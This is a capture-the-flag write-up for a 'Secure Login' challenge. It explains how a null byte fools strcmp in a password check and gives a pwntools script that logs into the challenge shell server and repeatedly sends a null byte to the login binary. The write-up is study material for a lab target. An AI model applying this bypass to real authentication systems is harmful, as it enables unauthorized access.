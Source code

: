 # Secure Login

## Description

My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

Try to hack me at /problems/2021/secure_login on the shell server.

## Solution

Let's take a look to the code:

![image](https://user-images.githubusercontent.com/72620139/114243744-6d697b80-998d-11eb-8a49-1560e698e80c.png)


The function fgets, doesn't seem vulnerable... But strcmp starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached. 
So if the two strings starts with the string terminator the function will return 0 because the two strings match up to the null character.

We reach our goal! Let's write the script:

from pwn import *

#connection
conn = ssh(host='shell.actf.co', user='team', password='pw')
conn = conn.shell('/bin/bash')
conn.sendline('cd /problems/2021/secure_login')

#waiting for the magic
for x in range(1000):
	conn.sendline('./login')
	conn.recvuntil(': ')
	conn.sendline(b'\x00')
	print(conn.recvline())

conn.interactive()
conn.close()



#### **FLAG >>** `FLAG QUI`

